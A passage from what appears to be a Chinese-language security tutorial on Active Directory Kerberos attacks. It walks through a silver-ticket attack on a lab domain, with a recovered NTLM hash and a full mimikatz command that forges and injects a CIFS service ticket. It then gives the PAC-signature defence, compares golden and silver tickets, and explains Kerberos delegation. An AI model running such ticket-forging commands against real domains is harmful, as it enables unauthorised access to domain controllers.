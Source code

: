 ![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaIPBNlDgA67DfvInJUQSUjLIfORzzT69vICBTvpxU8qWEol1xPzBSuWQ/640?wx_fmt=png)

  
得到 NTLM 为: 2c268a2a643267a4204a6ef6f896446b  
2. 使用白银票据攻击  

```
kerberos::golden /domain:0day.org /sid:S-1-5-21-1812960810-2335050734-3517558805 /target:OWA2010SP3.0day.org /service:cifs /rc4:2c268a2a643267a4204a6ef6f896446b /user:administrator /ptt
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaI1fuicGeadLTA3WVrgeibmuIibicNJzIjR5ya8zABTCL2uKudib6JIYPW4Ug/640?wx_fmt=png)

  
3. 查看票据  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaIx9MOXMibBsicicdOI0rLYmVgib82MVdlM4lrwKSFoftbs3nw4kjnb850kQ/640?wx_fmt=png)

  
4. 访问域控  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaIJL6AWZyEJqmckLW1jWDfFzxEgFFISAiaibibfwtia7Dd3htdg6rsTeewAA/640?wx_fmt=png)

防御：  
伪造的白银票据没有带有有效 KDC 签名的 PAC。如果将目标主机配置为验证 KDC PAC 签名，则银票将不起作用。  

### 3. 白银票据和黄金票据的不同点

访问权限不同：  
黄金票据 Golden Ticket：伪造 TGT 认购权证，可以获取任何 Kerberos 服务权限  
白银票据 Silver Ticket：伪造 ST 服务票据，只能访问指定的服务  
加密方式不同：  
Golden Ticket 由 krbtgt 的 Hash 加密  
Silver Ticket 由服务账号（通常为计算机账户）Hash 加密  
认证流程不同：  
Golden Ticket 的利用过程需要访问域控，  
而 Silver Ticket 不需要  

委派
==

  
域委派是指，将域内用户的权限委派给服务账号，使得服务账号能以用户权限开展域内活动。  
服务账号（Service Account），域内用户的一种类型，服务器运行服务时所用的账号，将服务运行起来并加入域。例如 MS SQL Server 在安装时，会在域内自动注册服务账号 SqlServiceAccount，这类账号不能用于交互式登录。  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaIjDRlWxHbjibhkgeV14V1T8LCXBrKt1HrnXVNWDELoCNZmA0MlUSe3Kw/640?wx_fmt=png)

  
上图是经典的应用场景。一个域内普通用户 jack 通过 Kerberos 协议认证到前台 WEB 服后，前台运行 WEB 服务的服务账号 websvc 模拟（Impersonate）用户 jack，以 Kerberos 协议继续认证到后台服务器，从而在后台服务器中获取 jack 用户的访问权限，即域中跳或者多跳的 Kerberos 认证。按照图中红色字体的数字，具体步骤如下：

• 域内用户 jack 以 Kerberos 方式认证后访问 Web 服务器；•Web 服务以 websvc 服务账号运行，websvc 向 KDC 发起 jack 用户的票据申请；•KDC 检查 websvc 用户的委派属性，如果被设置，则返回 jack 用户的可转发票据 TGT；•websvc 收到 jack 用户 TGT 后，使用该票据向 KDC 申请访问文件服务器的服务票据 TGS；•KDC 检查 websvc 的委派属性，如果被设置，且申请的文件服务在允许的列表清单中，则返回一个 jack 用户访问文件服务的授权票据 TGS；•websvc 收到的 jack 用户的授权票据 TGS 后，可访问文件服务，完成多跳认证。
